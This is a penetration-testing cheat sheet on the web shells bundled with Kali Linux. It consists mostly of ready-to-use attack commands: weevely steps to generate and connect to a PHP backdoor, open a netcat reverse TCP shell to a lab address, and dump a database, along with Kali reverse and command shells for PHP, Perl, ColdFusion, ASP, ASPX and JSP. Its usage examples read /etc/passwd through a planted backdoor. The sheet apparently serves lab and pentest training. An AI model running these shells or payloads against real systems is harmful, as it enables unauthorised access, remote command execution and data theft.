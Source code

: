 # Web Shells

The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

## weevely payloads

generate:

```
weevely generate [password] [file name].php
```

connect:

```
weevely http://192.168.56.102/dvwa/hackable/uploads/shell.php [password]
```

​run a reverse tcp backdoor from weevely shell:

```
backdoor_reversetcp -vector netcat 192.168.56.1 6969
```

dump sql database with weevely:

```
sql_dump -vector mysqldump_sh -host localhost -lpath /root/dvwa-data.txt db name] [user] [passwd]
```

## Kali PHP Web Shells

Kali PHP reverse shells and command shells:



| Command                                                                               | Description                                                                                                                                                           |
| ------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /usr/share/webshells/php/ php-reverse-shell.php                                       | Pen Test Monkey - PHP Reverse Shell                                                                                                                                   |
| /usr/share/webshells/ php/php-findsock-shell.php /usr/share/webshells/ php/findsock.c | Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c (be mindfull of the target servers architecture), execute with netcat not a browser nc -v target 80 |
| /usr/share/webshells/ php/simple-backdoor.php                                         | PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple- backdoor.php?cmd=cat+/etc/passwd                     |
| /usr/share/webshells/ php/php-backdoor.php                                            | Larger PHP shell, with a text input box for command execution.                                                                                                        |

{% hint style="info" %}
The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.
{% endhint %}

## Kali Perl Reverse Shell



&#x20;Kali perl reverse shell:\


| Command                                          | Description                                                                       |
| ------------------------------------------------ | --------------------------------------------------------------------------------- |
| /usr/share/webshells/perl/ perl-reverse-shell.pl | Pen Test Monkey - Perl Reverse Shell                                              |
| /usr/share/webshells/ perl/perlcmd.cgi           | Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd |

## Kali Cold Fusion Shell

\
Kali Coldfusion Shell:

| Command                             | Description                       |
| ----------------------------------- | --------------------------------- |
| /usr/share/webshells/cfm/cfexec.cfm | Cold Fusion Shell - aka CFM Shell |

## Kali ASP Shell

\
Classic ASP Reverse Shell + CMD shells:

| Command                   | Description     |
| ------------------------- | --------------- |
| /usr/share/webshells/asp/ | Kali ASP Shells |

## Kali ASPX Shells

\
ASP.NET reverse shells within Kali

| Command                    | Description      |
| -------------------------- | ---------------- |
| /usr/share/webshells/aspx/ | Kali ASPX Shells |

## Kali JSP Reverse Shell

\
Kali JSP Reverse Shell:

| Command                                  | Description            |
| ---------------------------------------- | ---------------------- |
| /usr/share/webshells/jsp/jsp-reverse.jsp | Kali JSP Reverse Shell |









